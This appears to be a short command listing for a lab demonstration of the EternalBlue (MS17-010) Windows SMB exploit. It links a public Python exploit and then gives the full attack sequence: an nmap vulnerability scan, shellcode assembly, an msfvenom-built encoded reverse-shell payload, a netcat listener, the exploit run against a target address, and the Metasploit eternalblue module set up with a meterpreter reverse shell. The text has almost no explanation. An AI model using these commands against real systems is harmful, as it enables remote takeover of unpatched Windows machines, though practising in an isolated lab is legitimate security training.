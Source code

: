 Python exploit:

https://github.com/worawit/MS17-010/

Commands used:

tcpdump -nnttttAi eth1 -w eternalblue.pcap

nmap -p445 --script smb-vuln-* 192.168.56.102

nasm -f bin eternalblue_kshellcode_x86.asm

msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o meterpreterx86.bin EXITFUNC=thread LHOST=192.168.56.101 LPORT=4444 -b \x00\x0a\x0d

cat eternalblue_kshellcode_x86 meterpreterx86.bin > sc_x86.bin

nc -nlvp 4444

python eternalblue_exploit7.py 192.168.56.102 sc_x86.bin

msfconsole

search eternalblue

use exploit/windows/smb/ms17_010_eternalblue

set RHOST 192.168.56.102

set LHOST 192.168.56.101

set PAYLOAD windows/meterpreter/reverse_tcp

set VerifyArch false

exploit